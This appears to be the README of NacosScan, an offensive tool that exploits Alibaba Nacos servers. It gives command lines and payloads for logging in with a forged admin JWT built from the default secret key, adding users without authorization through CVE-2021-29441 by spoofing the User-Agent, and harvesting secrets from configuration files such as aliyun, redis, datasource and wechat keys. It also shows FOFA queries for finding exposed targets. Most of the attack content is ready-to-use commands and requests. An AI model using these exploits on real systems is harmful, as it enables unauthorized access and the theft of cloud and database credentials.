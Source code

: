 # NacosScan

同步更新 https://github.com/Whoopsunix/nacosScan

慢慢磨合 欢迎 issue

# do what?

- [x] 漏洞利用
  - [x] JWT 硬编码登陆
  - [x] api未授权添加用户
  - [ ] Hessian 反序列化这个洞比较特殊有 group 限制就不加了，可以参考其他师傅的
- [x] 可从文件中读取，支持输入url，也可以输入 host、ip 自动重定向。最好还是用 url 指定 nacos 路径
- [x] 配置读取
  - [x] 默认会使用 JWT 硬编码尝试读取，可通过 -t 指定 token 在无漏洞时仍可读取配置文件
  - [x] 提取期望 key，可自行在 moudle/jwtToken.py 文件中修改，目前支持 ["aliyun", "oss", "datasource", "redis", "ftp", "server", "wechat", "store", "minio"]
  - [x] 文件格式
    - [x] 支持解析 yaml、yml 文件
    - [ ] json、 properties、无后缀等情况，实战遇到再加，目前只简单处理


## 使用

### JWT 硬编码登陆

建议优先使用该漏洞，少在服务器留下东西。。

```sh
# 指定 url，必须为nacos服务的路径
python3.8 nacosScan.py jwt -u {http://ip/nacos}

# 指定ip、host 后重定向
python3.8 nacosScan.py jwt -u {ip}

# 文件中读取
python3.8 nacosScan.py jwt -uf {url.txt}
```

### api未授权添加用户

```sh
# 默认添加 nasin natan
python3.8 nacosScan.py api -u {url}

# 指定ip、host 后重定向
python3.8 nacosScan.py api -u {ip}

# 指定用户名、密码
python3.8 nacosScan.py api -u {http://ip/nacos} -user {} -pass {}
```

### 读配置

存在 nacos 相关泄漏时也可以来读配置

```sh
# 指定 username password
python3.8 nacosScan.py jwt -u {http://ip/nacos} -user {} -pass {}

# 指定 accessToken 读配置
python3.8 nacosScan.py jwt -u {http://ip/nacos} -t {token}
```

## 效果图

JWT 硬编码登陆、读配置

![image-20230721104935526](attachments/image-20230721104935526.png)

api未授权添加用户

![image-20230720115207827](attachments/image-20230720115207827.png)

指定账号密码读配置

![image-20230720143700553](attachments/image-20230720143700553.png)

# 0x01 Nacos JWT 硬编码登陆

https://github.com/alibaba/nacos/issues/9830

## 概述

### 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。若您Nacos未修改 secret.key，则攻击者可利用默认secret.key生成JWT Token，从而造成权限绕过访问到相关API接口。

### 影响范围

0.1.0<=com.alibaba.nacos:nacos-console<2.2.0.1

## 环境

fofa

```
app="NACOS" 
```

## 复现

抓取登陆包，修改响应包状态码为 200 和 body

```json
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```

![image-20230530101351383](attachments/image-20230530101351383.png)

# 0x02 Nacos api未授权添加用户 CVE-2021-29441

## 概述

### 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。CVE-2021-29441中，攻击者通过添加Nacos-Server的User-Agent头部将可绕过认证，从而进行API操作。

### 影响范围

Up to (excluding) 1.4.1

## 环境

fofa

```
app="NACOS" 
```

## 复现

查询用户列表

http://your-ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

添加用户

```http
POST /v1/auth/users HTTP/1.1
Host: nacos.qihuian.com
User-Agent: Nacos-Server
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=crowtt&password=crowt188
```

![image-20230720110732808](attachments/image-20230720110732808.png)

# 0x03 Nacos 内网集群Raft 反序列化漏洞

## 概述

### 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。该漏洞仅影响7848端口（默认设置下），一般使用时该端口为Nacos集群间Raft协议的通信端口，不承载客户端请求，因此老版本可以通过禁止该端口来自Nacos集群外的请求达到止血目的（如部署时已进行限制或未暴露，则风险可控）。

### 影响范围

1.4.0 <= Nacos < 1.4.6

2.0.0 <= Nacos < 2.2.3

## 环境

fofa

```
app="NACOS" 
```

## 复现

https://l3yx.github.io/2023/06/09/Nacos-Raft-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://y4er.com/posts/nacos-hessian-rce/

